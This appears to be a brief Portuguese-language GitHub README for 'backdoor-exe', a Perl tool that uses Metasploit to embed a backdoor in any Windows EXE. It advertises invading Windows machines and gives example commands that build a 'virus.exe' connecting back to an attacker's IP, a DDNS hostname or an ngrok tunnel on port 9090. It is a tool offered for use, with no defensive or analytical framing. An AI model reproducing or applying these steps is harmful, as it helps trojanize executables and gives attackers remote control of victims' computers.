 # backdoor-exe
Invada qualquer Windows usando um EXE modificado!

Necessário o Perl, MSF(console e venom), um EXE(qualquer)..

Para ajuda

./backdoor-exe -h

IP:

./backdoor-exe test.exe 192.168.1.143 9090 virus.exe

Host/DDNS:

./backdoor-exe test.exe fuckthisn0ip.ddns.net 9090 virus.exe

Ngrok:

./backdoor-exe -n test.exe xxxx.ngok.io xxxx 9090 virus.exe

Meu canal no YT: https://www.youtube.com/channel/UC_0YeOjcY-d_Tq0Kvcf4CKg
